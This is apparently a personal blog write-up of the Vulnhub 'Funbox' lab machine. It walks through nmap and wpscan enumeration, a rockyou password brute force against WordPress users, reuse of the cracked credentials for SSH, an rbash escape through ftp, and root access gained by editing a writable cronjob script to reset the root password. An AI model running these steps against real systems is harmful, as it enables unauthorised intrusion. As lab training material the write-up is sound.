 ```yaml
---
title: Vulnhub - Funbox
description: My writeup on Funbox box.
categories:
 - vulnhub
tags: vulnhub wordpress rbash ssh cronjob wpscan pspy
---
```


![](https://i.imgur.com/FuewCDo.png)

Hi all, let's start!

You can find the machine there > [Funbox](https://www.vulnhub.com/entry/funbox-1,518/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.10
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-02 13:27 EEST
Nmap scan report for funbox.zte.com.cn (192.168.1.10)
Host is up (0.00024s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx
MAC Address: 08:00:27:87:6E:0C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.51 seconds
$ nmap -p 21,22,80,33060 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-02 13:27 EEST
Nmap scan report for funbox.zte.com.cn (192.168.1.10)
Host is up (0.00042s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     ProFTPD
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://funbox.fritz.box/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```

Let's enumerate the port 80 first, when we visit it we get an error and redirect us to `http://funbox.fritz.box/` seems like  virtual host. We have to add it to `/etc/hosts` 

```
$ nano /etc/hosts
...
192.168.1.10    funbox.fritz.box
```

Now we can see a wordpress site, let's run `wpscan` on it.

```
$ wpscan --no-banner --url http://funbox.fritz.box/ -e ap,u
...

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://funbox.fritz.box/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] joe
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

No plugins but we can see 2 users `admin,joe` let's run a brute force attack on them with rockyou.

```
$ wpscan --no-banner --url http://funbox.fritz.box/ -U admin,joe -P /usr/share/wordlists/rockyou.txt 
...

[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - joe / 12345                                                                                                                                                                 
[SUCCESS] - admin / iubire                                                                                                                                                              
Trying admin / iubire Time: 00:00:09 <                                                                                                          > (670 / 14344394)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: joe, Password: 12345
 | Username: admin, Password: iubire
```

Perfect, now we can use the same creds for ssh. `joe:12345` LOL.

```
$ ssh joe@$ip
joe@192.168.1.10's password: 
joe@funbox:~$ echo $SHELL
/bin/rbash
```

We're in `rbash` we can simply bypass that.

```
joe@funbox:~$ ftp
ftp> !/bin/bash
```

Under `/home/funny` i found a hidden backup.sh file that seems like a cronjob:

```
joe@funbox:/home/funny$ cat .backup.sh 
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
```

Let's run [pspy](https://github.com/DominicBreuker/pspy){:target="_blank"} to confirm the cronjob.

```
joe@funbox:/tmp$ ./pspy64 -p -i 1000
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     
...

2020/09/02 10:44:01 CMD: UID=1000 PID=3209   | /bin/bash /home/funny/.backup.sh 
2020/09/02 10:44:01 CMD: UID=1000 PID=3208   | /bin/sh -c /home/funny/.backup.sh 
2020/09/02 10:44:01 CMD: UID=1000 PID=3210   | tar -cf /home/funny/html.tar /var/www/html 

2020/09/02 10:45:01 CMD: UID=0    PID=3217   | /bin/sh -c /home/funny/.backup.sh 
2020/09/02 10:45:01 CMD: UID=0    PID=3219   | tar -cf /home/funny/html.tar /var/www/html 
2020/09/02 10:45:01 CMD: UID=0    PID=3218   | /bin/bash /home/funny/.backup.sh 
```

We can see it runs as UID 1000 and as UID 0, let's add a command that changes root password and wait 5 minutes to be sure.

```
joe@funbox:/tmp$ nano /home/funny/.backup.sh 
joe@funbox:/tmp$ cat /home/funny/.backup.sh 
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
echo 'root:pwned' | sudo chpasswd
```

And here we go:

```
joe@funbox:/tmp$ su - root
Password: 
root@funbox:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
root@funbox:~# 
```

Was fun! :)
